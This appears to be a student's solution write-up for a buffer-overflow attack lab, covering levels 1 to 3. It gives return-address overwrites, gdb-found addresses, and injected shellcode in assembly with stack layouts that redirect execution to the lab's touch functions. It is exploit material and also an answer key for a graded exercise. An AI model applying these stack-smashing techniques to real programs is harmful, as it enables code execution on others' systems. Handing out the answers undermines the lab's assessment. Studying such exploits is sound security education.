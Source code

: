 The answer bytes can be found in `./answer/<lv>.txt`.

## Lv 1
Overwrite `0x401976`(the real ret addr) with `0x4017c0`(the func `touch1` addr). 

The address can be examined with `x 0x28+$rsp` when the program is inside the function `getbuf`.

## Lv 2

Use gdb to inspect the following address:
- the address of `cookie`: `0x6044e4`
- the address of original ret address: `0x5561dca0`
- address of `touch2`: `0x4017ec`

Then we need a piece of injection code to excute the call to `touch2`. The injection code should start from the bottom of the memory space for `buf`, with a sequence of `nop`. Then it comes to the setting of the argument and ret address for calling `touch2`. 

Firstly overwrite the original ret address with `<injection>`'s address: [`0x5561dca0`, +4] = `0x5561dc78`, which is the bottom of the memory space for `buf`.

Then set the address for calling `<touch2>`: [`0x5561dc98`, +8] = `0x4017ec0000000000`, where is the top of the memory space for `buf`.

Then the injection code:

```asm
0000000000000000 <injection>:
   0:	90                   	nop
   1:	48 c7 c4 98 dc 61 55 	mov    $0x5561dc98,%rsp
   8:	48 c7 c7 00 00 00 00 	mov    $0x0,%rdi
   f:	48 8b bf e4 44 60 00 	mov    0x6044e4(%rdi),%rdi
  16:	c3                   	ret
```

The stack should be like:
```
    addr of original ret -> addr of injection (0x5561dc78)
0x5561dca0 ^^^
buf:
    addr of touch2 (0x4017ec)
0x5561dc98 ^^^
injection:
    ret
    movq 0x6044e4(%rdi), %rdi
    movq $0, %rdi
    movq $0x5561dc98, %rsp
    nop...
0x5561dc78^^^
```

## Lv 3

Similar to Lv2:
- the value of `cookie`: `0x59b997fa`
- the corresponding little-endian value for the string `'59b997fa'`: `0x6166373939623935`
- the address of original ret address: `0x5561dca0`
- address of `touch3`: `0x4018fa`

Firstly overwrite the original ret address with `<injection>`'s address: [`0x5561dca0`, +4] = `0x5561dc78`, which is the bottom of the memory space for `buf`.

Now we define the place start from the bottom of the memory space for `buf` (`0x5561dc78`) as the new start of stack.

Then the injection code:

```asm
0000000000000000 <injection>:
   0:	90                   	nop
   1:	48 c7 c4 78 dc 61 55 	mov    $0x5561dc78,%rsp
   8:	48 bf 35 39 62 39 39 	movabs $0x6166373939623935,%rdi
   f:	37 66 61 
  12:	6a 00                	push   $0x0
  14:	57                   	push   %rdi
  15:	48 89 e7             	mov    %rsp,%rdi
  18:	48 c7 c0 fa 18 40 00 	mov    $0x4018fa,%rax
  1f:	50                   	push   %rax
  20:	c3                   	ret
```